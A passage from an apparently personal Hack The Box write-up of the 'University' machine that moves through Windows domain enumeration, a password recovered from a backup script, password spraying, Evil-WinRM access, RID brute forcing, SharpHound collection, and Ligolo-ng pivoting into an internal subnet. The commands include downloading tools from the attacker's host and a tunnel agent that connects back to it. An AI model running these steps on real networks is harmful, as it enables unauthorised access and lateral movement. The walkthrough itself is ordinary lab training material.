CONSOLE LOGON                              Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
UNIVERSITY\Web Developers                  Group            S-1-5-21-2056245889-740706773-2266349663-1129 Mandatory group, Enabled by default, Enabled group
Service asserted identity                  Well-known group S-1-18-2                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                     


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

A quick check on `C:\Users` got us a few more `usernames` to play with.

```c
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8E7E-469B

 Directory of C:\Users

03/02/2024  03:39 PM    <DIR>          .
03/02/2024  03:39 PM    <DIR>          ..
10/18/2024  11:20 AM    <DIR>          Administrator
03/02/2024  03:39 PM    <DIR>          Choco.L
02/12/2024  07:19 PM    <DIR>          John.D
02/28/2024  02:17 PM    <DIR>          Nya.R
02/12/2024  03:29 PM    <DIR>          Public
09/13/2024  02:31 AM    <DIR>          Rose.L
09/14/2024  09:36 AM    <DIR>          WAO
               0 File(s)              0 bytes
               9 Dir(s)   9,916,559,360 bytes free
```

| Usernames |
| --------- |
| Choco.L   |
| John.D    |
| Nya.R     |
| Rose.L    |
| WAO       |

We added them to our `usernames.txt` for `Password Spraying` later.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ cat usernames.txt 
george
carol
carol helgen
nour
Nour Qasso
martin.rose
martin rose
nya
Nya Laracrof
steven.U
steven Universe
Choco.L
John.D
Nya.R
Rose.L
WAO
```

In the `root` directory we found `tmp` and `Web` which definitely stood out.

```c
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8E7E-469B

 Directory of C:\

11/05/2022  11:58 AM    <DIR>          PerfLogs
10/16/2024  09:13 AM    <DIR>          Program Files
02/15/2024  02:04 PM    <DIR>          Program Files (x86)
10/27/2024  03:43 PM    <DIR>          tmp
03/02/2024  03:39 PM    <DIR>          Users
02/25/2024  05:42 PM    <DIR>          Web
10/16/2024  10:24 AM    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)   9,916,559,360 bytes free
```

The `Web` directory contained some juicy folders like `DB Backups` and `University`.

```c
C:\Web>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8E7E-469B

 Directory of C:\Web

02/25/2024  05:42 PM    <DIR>          .
02/25/2024  05:42 PM    <DIR>          ..
02/25/2024  05:53 PM    <DIR>          DB Backups
02/12/2024  05:54 PM    <DIR>          nginx-1.24.0
10/27/2024  03:38 PM    <DIR>          University
               0 File(s)              0 bytes
               5 Dir(s)   9,916,559,360 bytes free
```

Inside the `DB Backups` directory we found a `db-backup-automator.ps1` script which contained a `password`.

```c
C:\Web\DB Backups>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8E7E-469B

 Directory of C:\Web\DB Backups

02/25/2024  05:53 PM    <DIR>          .
02/25/2024  05:53 PM    <DIR>          ..
01/25/2023  01:03 AM            24,215 DB-Backup-2023-01-25.zip
02/25/2023  01:03 AM            24,215 DB-Backup-2023-02-25.zip
03/25/2023  12:03 AM            24,215 DB-Backup-2023-03-25.zip
04/25/2023  12:04 AM            24,215 DB-Backup-2023-04-25.zip
05/25/2023  12:04 AM            24,215 DB-Backup-2023-05-25.zip
06/25/2023  12:04 AM            24,215 DB-Backup-2023-06-25.zip
07/25/2023  12:04 AM            24,215 DB-Backup-2023-07-25.zip
08/25/2023  12:04 AM            24,215 DB-Backup-2023-08-25.zip
09/25/2023  12:05 AM            24,215 DB-Backup-2023-09-25.zip
10/25/2023  12:05 AM            24,215 DB-Backup-2023-10-25.zip
11/25/2023  01:05 AM            24,215 DB-Backup-2023-11-25.zip
12/25/2023  01:05 AM            24,215 DB-Backup-2023-12-25.zip
01/25/2024  01:06 AM            24,215 DB-Backup-2024-01-25.zip
02/25/2024  01:06 AM            24,215 DB-Backup-2024-02-25.zip
03/25/2024  12:07 AM            24,215 DB-Backup-2024-03-25.zip
04/25/2024  12:07 AM            24,215 DB-Backup-2024-04-25.zip
10/14/2024  09:35 AM               386 db-backup-automator.ps1
              17 File(s)        387,826 bytes
               2 Dir(s)   9,916,559,360 bytes free
```

```c
C:\Web\DB Backups>type db-backup-automator.ps1
type db-backup-automator.ps1
$sourcePath = "C:\Web\University\db.sqlite3"
$destinationPath = "C:\Web\DB Backups\"
$7zExePath = "C:\Program Files\7-Zip\7z.exe"

$zipFileName = "DB-Backup-$(Get-Date -Format 'yyyy-MM-dd').zip"
$zipFilePath = Join-Path -Path $destinationPath -ChildPath $zipFileName
$7zCommand = "& `"$7zExePath`" a `"$zipFilePath`" `"$sourcePath`" -p'WebAO1337'"
Invoke-Expression -Command $7zCommand
```

| Password  |
| --------- |
| WebAO1337 |

## Privilege Escalation to WAO
### Password Spraying

The `password` indicated that it could be the `password` for the user `WAO` but we would `sprayed` it anyways so we just made sure that we were correct about that.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ netexec smb 10.129.153.87 -u usernames.txt -p passwords.txt --shares
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.153.87   445    DC               [-] university.htb\george:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\carol:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\carol helgen:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\nour:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nour Qasso:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\martin.rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\martin rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\nya:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nya Laracrof:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\steven.U:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\steven Universe:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Choco.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\John.D:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nya.R:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Rose.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [+] university.htb\WAO:WebAO1337 
SMB         10.129.153.87   445    DC               [*] Enumerated shares
SMB         10.129.153.87   445    DC               Share           Permissions     Remark
SMB         10.129.153.87   445    DC               -----           -----------     ------
SMB         10.129.153.87   445    DC               ADMIN$                          Remote Admin
SMB         10.129.153.87   445    DC               C$                              Default share
SMB         10.129.153.87   445    DC               IPC$            READ            Remote IPC
SMB         10.129.153.87   445    DC               Lectures                        Lectures Share folder for Content Evalutors for reviewing submitted lectures
SMB         10.129.153.87   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.153.87   445    DC               SYSVOL          READ            Logon server share
```

| Username | Password  |
| -------- | --------- |
| WAO      | WebAO1337 |

Even if the `password` was "only" for `WAO` it gave us at least access via `WinRM`.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.153.87 -u 'WAO' -p 'WebAO1337'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\WAO\Documents>
```

## RID Brute Forcing

With the `password` of `WAO` we were able to read `IPC$` which we instantly used to `brute force` the `Relative Identifiers (RID)`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ netexec smb 10.129.153.87 -u usernames.txt -p passwords.txt --rid-brute
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
SMB         10.129.153.87   445    DC               [-] university.htb\george:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\carol:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\carol helgen:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\nour:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nour Qasso:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\martin.rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\martin rose:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\nya:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nya Laracrof:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\steven.U:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\steven Universe:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Choco.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\John.D:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Nya.R:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [-] university.htb\Rose.L:WebAO1337 STATUS_LOGON_FAILURE 
SMB         10.129.153.87   445    DC               [+] university.htb\WAO:WebAO1337 
SMB         10.129.153.87   445    DC               498: UNIVERSITY\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.153.87   445    DC               500: UNIVERSITY\Administrator (SidTypeUser)
SMB         10.129.153.87   445    DC               501: UNIVERSITY\Guest (SidTypeUser)
SMB         10.129.153.87   445    DC               502: UNIVERSITY\krbtgt (SidTypeUser)
SMB         10.129.153.87   445    DC               512: UNIVERSITY\Domain Admins (SidTypeGroup)
SMB         10.129.153.87   445    DC               513: UNIVERSITY\Domain Users (SidTypeGroup)
SMB         10.129.153.87   445    DC               514: UNIVERSITY\Domain Guests (SidTypeGroup)
SMB         10.129.153.87   445    DC               515: UNIVERSITY\Domain Computers (SidTypeGroup)
SMB         10.129.153.87   445    DC               516: UNIVERSITY\Domain Controllers (SidTypeGroup)
SMB         10.129.153.87   445    DC               517: UNIVERSITY\Cert Publishers (SidTypeAlias)
SMB         10.129.153.87   445    DC               518: UNIVERSITY\Schema Admins (SidTypeGroup)
SMB         10.129.153.87   445    DC               519: UNIVERSITY\Enterprise Admins (SidTypeGroup)
SMB         10.129.153.87   445    DC               520: UNIVERSITY\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.153.87   445    DC               521: UNIVERSITY\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.153.87   445    DC               522: UNIVERSITY\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.153.87   445    DC               525: UNIVERSITY\Protected Users (SidTypeGroup)
SMB         10.129.153.87   445    DC               526: UNIVERSITY\Key Admins (SidTypeGroup)
SMB         10.129.153.87   445    DC               527: UNIVERSITY\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.153.87   445    DC               553: UNIVERSITY\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.153.87   445    DC               571: UNIVERSITY\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.153.87   445    DC               572: UNIVERSITY\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.153.87   445    DC               1000: UNIVERSITY\DC$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1101: UNIVERSITY\DnsAdmins (SidTypeAlias)
SMB         10.129.153.87   445    DC               1102: UNIVERSITY\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.153.87   445    DC               1103: UNIVERSITY\John.D (SidTypeUser)
SMB         10.129.153.87   445    DC               1104: UNIVERSITY\George.A (SidTypeUser)
SMB         10.129.153.87   445    DC               1106: UNIVERSITY\WAO (SidTypeUser)
SMB         10.129.153.87   445    DC               1107: UNIVERSITY\hana (SidTypeUser)
SMB         10.129.153.87   445    DC               1108: UNIVERSITY\karma.watterson (SidTypeUser)
SMB         10.129.153.87   445    DC               1109: UNIVERSITY\Alice.Z (SidTypeUser)
SMB         10.129.153.87   445    DC               1110: UNIVERSITY\Steven.P (SidTypeUser)
SMB         10.129.153.87   445    DC               1111: UNIVERSITY\Karol.J (SidTypeUser)
SMB         10.129.153.87   445    DC               1112: UNIVERSITY\Leon.K (SidTypeUser)
SMB         10.129.153.87   445    DC               1113: UNIVERSITY\A.Crouz (SidTypeUser)
SMB         10.129.153.87   445    DC               1114: UNIVERSITY\Kai.K (SidTypeUser)
SMB         10.129.153.87   445    DC               1115: UNIVERSITY\Arnold.G (SidTypeUser)
SMB         10.129.153.87   445    DC               1116: UNIVERSITY\Kareem.A (SidTypeUser)
SMB         10.129.153.87   445    DC               1117: UNIVERSITY\Lisa.K (SidTypeUser)
SMB         10.129.153.87   445    DC               1118: UNIVERSITY\Jakken.C (SidTypeUser)
SMB         10.129.153.87   445    DC               1119: UNIVERSITY\Nya.R (SidTypeUser)
SMB         10.129.153.87   445    DC               1120: UNIVERSITY\Brose.W (SidTypeUser)
SMB         10.129.153.87   445    DC               1121: UNIVERSITY\Choco.L (SidTypeUser)
SMB         10.129.153.87   445    DC               1122: UNIVERSITY\Rose.L (SidTypeUser)
SMB         10.129.153.87   445    DC               1123: UNIVERSITY\Emma.H (SidTypeUser)
SMB         10.129.153.87   445    DC               1124: UNIVERSITY\C.Freez (SidTypeUser)
SMB         10.129.153.87   445    DC               1125: UNIVERSITY\Help Desk (SidTypeGroup)
SMB         10.129.153.87   445    DC               1126: UNIVERSITY\Content Evaluators (SidTypeGroup)
SMB         10.129.153.87   445    DC               1127: UNIVERSITY\Martin.T (SidTypeUser)
SMB         10.129.153.87   445    DC               1128: UNIVERSITY\Customer Support (SidTypeGroup)
SMB         10.129.153.87   445    DC               1129: UNIVERSITY\Web Developers (SidTypeGroup)
SMB         10.129.153.87   445    DC               1130: UNIVERSITY\Research & Development (SidTypeGroup)
SMB         10.129.153.87   445    DC               1132: UNIVERSITY\William.B (SidTypeUser)
SMB         10.129.153.87   445    DC               1134: UNIVERSITY\WS-3$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1136: UNIVERSITY\SecurityOps (SidTypeGroup)
SMB         10.129.153.87   445    DC               1140: UNIVERSITY\GMSA-PClient01$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1141: UNIVERSITY\WS-1$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1142: UNIVERSITY\WS-2$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1143: UNIVERSITY\WS-4$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1144: UNIVERSITY\WS-5$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1145: UNIVERSITY\LAB-2$ (SidTypeUser)
```

In the `output` we noticed a few interesting `hosts`.

```c
<--- CUT FOR BREVITY --->
SMB         10.129.153.87   445    DC               1134: UNIVERSITY\WS-3$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1136: UNIVERSITY\SecurityOps (SidTypeGroup)
SMB         10.129.153.87   445    DC               1140: UNIVERSITY\GMSA-PClient01$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1141: UNIVERSITY\WS-1$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1142: UNIVERSITY\WS-2$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1143: UNIVERSITY\WS-4$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1144: UNIVERSITY\WS-5$ (SidTypeUser)
SMB         10.129.153.87   445    DC               1145: UNIVERSITY\LAB-2$ (SidTypeUser)
<--- CUT FOR BREVITY --->
```

We cleaned the `output` and added the `usernames` to our `wordlist`.

| Usernames       |
| --------------- |
| John.D          |
| George.A        |
| WAO             |
| hana            |
| karma.watterson |
| Alice.Z         |
| Steven.P        |
| Karol.J         |
| Leon.K          |
| A.Crouz         |
| Kai.K           |
| Arnold.G        |
| Kareem.A        |
| Lisa.K          |
| Jakken.C        |
| Nya.R           |
| Brose.W         |
| Choco.L         |
| Rose.L          |
| Emma.H          |
| C.Freez         |
| Martin.T        |
| William.B       |

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ cat usernames.txt 
A.Crouz
Alice.Z
Arnold.G
Brose.W
C.Freez
Choco.L
Emma.H
George.A
Jakken.C
John.D
Kai.K
Kareem.A
Karol.J
Leon.K
Lisa.K
Martin.T
Nour Qasso
Nya Laracrof
Nya.R
Rose.L
Steven.P
WAO
William.B
carol
carol helgen
george
hana
karma.watterson
martin rose
martin.rose
nour
nya
steven Universe
steven.U
```

And of course we `password sprayed` again the see if the `password` of `WAO` was `re-used`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ netexec ldap 10.129.153.87 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
LDAP        10.129.153.87   389    DC               [-] university.htb\A.Crouz:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Alice.Z:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Arnold.G:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Brose.W:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\C.Freez:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Choco.L:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Emma.H:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\George.A:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Jakken.C:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\John.D:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Kai.K:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Kareem.A:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Karol.J:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Leon.K:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Lisa.K:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Martin.T:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Nour Qasso:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Nya Laracrof:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Nya.R:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Rose.L:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Steven.P:WebAO1337 
LDAP        10.129.153.87   389    DC               [+] university.htb\WAO:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\William.B:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\carol:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\carol helgen:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\george:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\hana:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\karma.watterson:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\martin rose:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\martin.rose:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\nour:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\nya:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\steven Universe:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\steven.U:WebAO1337
```

## Active Directory Enumeration

At this point it was time have a look at the `Active Directory`. Therefore we threw `SharpHound` onto the box and downloaded the `.zip` file.

- [https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe)

```c
*Evil-WinRM* PS C:\tmp> iwr 10.10.14.79/SharpHound.exe -o SharpHound.exe
```

```c
*Evil-WinRM* PS C:\tmp> .\SharpHound.exe
2024-10-27T16:34:03.6342477-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-10-27T16:34:03.7748802-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-27T16:34:03.7905191-07:00|INFORMATION|Initializing SharpHound at 4:34 PM on 10/27/2024
2024-10-27T16:34:03.9936189-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for university.htb : DC.university.htb
2024-10-27T16:34:04.0248733-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-27T16:34:04.1968780-07:00|INFORMATION|Beginning LDAP search for university.htb
2024-10-27T16:34:04.2279985-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-10-27T16:34:04.2435950-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-10-27T16:34:34.8947271-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2024-10-27T16:34:49.6862951-07:00|INFORMATION|Consumers finished, closing output channel
2024-10-27T16:34:49.7170673-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-10-27T16:34:49.9983137-07:00|INFORMATION|Status: 126 objects finished (+126 2.8)/s -- Using 42 MB RAM
2024-10-27T16:34:49.9983137-07:00|INFORMATION|Enumeration finished in 00:00:45.8128793
2024-10-27T16:34:50.0765063-07:00|INFORMATION|Saving cache with stats: 86 ID to type mappings.
 85 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-10-27T16:34:50.0920811-07:00|INFORMATION|SharpHound Enumeration Completed at 4:34 PM on 10/27/2024! Happy Graphing!
```

```c
*Evil-WinRM* PS C:\tmp> download 20241027163449_BloodHound.zip
                                        
Info: Downloading C:\tmp\20241027163449_BloodHound.zip to 20241027163449_BloodHound.zip
                                        
Info: Download successful!
```

First we checked details about `WAO` like his `group memberships`.


And we took closer look on the other `machines` we found previously.


## Lateral Movement

### Host Discovery

A quick look at the `ARP Table` showed the `IP addresses` of two of the `machines`.

```c
*Evil-WinRM* PS C:\Users\WAO\Documents> arp -a
<--- CUT FOR BREVITY --->
Interface: 192.168.99.1 --- 0x6
  Internet Address      Physical Address      Type
  192.168.99.2          00-15-5d-05-80-00     dynamic
  192.168.99.12         00-15-5d-05-80-07     dynamic
<--- CUT FOR BREVITY --->
```

We could confirm that it was `LAB-2` and `WS-3`. The `TTL=64` confirmed a potential `Linux` system and the `TTL=128` a `Windows-based` one.

```c
*Evil-WinRM* PS C:\> ping lab-2

Pinging LAB-2.UNIVERSITY.HTB [192.168.99.12] with 32 bytes of data:
Reply from 192.168.99.12: bytes=32 time<1ms TTL=64
Reply from 192.168.99.12: bytes=32 time<1ms TTL=64
Reply from 192.168.99.12: bytes=32 time<1ms TTL=64
Reply from 192.168.99.12: bytes=32 time<1ms TTL=64

Ping statistics for 192.168.99.12:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

```c
*Evil-WinRM* PS C:\Users\WAO\Documents> ping ws-3

Pinging ws-3.university.htb [192.168.99.2] with 32 bytes of data:
Reply from 192.168.99.2: bytes=32 time<1ms TTL=128
Reply from 192.168.99.2: bytes=32 time=2ms TTL=128
Reply from 192.168.99.2: bytes=32 time<1ms TTL=128
Reply from 192.168.99.2: bytes=32 time<1ms TTL=128

Ping statistics for 192.168.99.2:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 2ms, Average = 0ms
```

## Port Forwarding

To access the system in the `subnet` we needed to forward our traffic to it. For convenience we used `Ligolo-ng` for it.

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

```c
┌──(kali㉿kali)-[~]
└─$ sudo ip tuntap add user $(whoami) mode tun ligolo
[sudo] password for kali:
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo ip link set ligolo up
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/serve]
└─$ ./proxy -laddr 10.10.14.79:443 -selfcert
WARN[0000] Using automatically generated self-signed certificates (Not recommended) 
INFO[0000] Listening on 10.10.14.79:443                 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                                
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                  
        /____/                          /____/                                                                                                                                                                                              
  Made in France ♥            by @Nicocha30!                                                                                                                                                                                                
ligolo-ng »
```

```c
PS C:\tmp> .\agent.exe -connect 10.10.14.79:443 -ignore-cert
.\agent.exe -connect 10.10.14.79:443 -ignore-cert
time="2024-10-27T08:02:42-07:00" level=warning msg="warning, certificate validation disabled"
time="2024-10-27T08:02:42-07:00" level=info msg="Connection established" addr="10.10.14.79:443"
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo ip route add 192.168.99.0/24 dev ligolo
```

### Host Enumeration

A quick look at the `open ports` of both machines showed nothing out of the ordinary.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 192.168.99.12
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 18:05 CET
Nmap scan report for 192.168.99.12
Host is up (0.0046s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 17:7a:b3:84:00:58:b7:46:2f:5b:6e:30:b8:2f:ab:73 (ECDSA)
|_  256 90:ef:af:b3:76:2d:60:80:03:4f:00:63:7b:b9:d6:45 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.19 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 192.168.99.2 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-27 18:05 CET
Nmap scan report for 192.168.99.2
Host is up (0.0099s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WS-3, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:05:80:00 (Microsoft)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-10-28T00:05:56
|_  start_date: N/A
|_clock-skew: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.80 seconds
```

### Password Re-use

For the `Windows` system we used `NetExec` to look for working `credentials` but for the `Linux` system we needed to switch to `Hydra` because of some weird error messages.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ netexec smb 192.168.99.2 -u usernames.txt -p passwords.txt --continue-on-success
SMB         192.168.99.2    445    WS-3             [*] Windows 10 / Server 2019 Build 17763 x64 (name:WS-3) (domain:university.htb) (signing:False) (SMBv1:False)
SMB         192.168.99.2    445    WS-3             [-] university.htb\A.Crouz:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Alice.Z:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Arnold.G:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Brose.W:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\C.Freez:WebAO1337 STATUS_LOGON_FAILURE 
SMB         192.168.99.2    445    WS-3             [-] university.htb\Choco.L:WebAO1337 STATUS_LOGON_FAILURE 
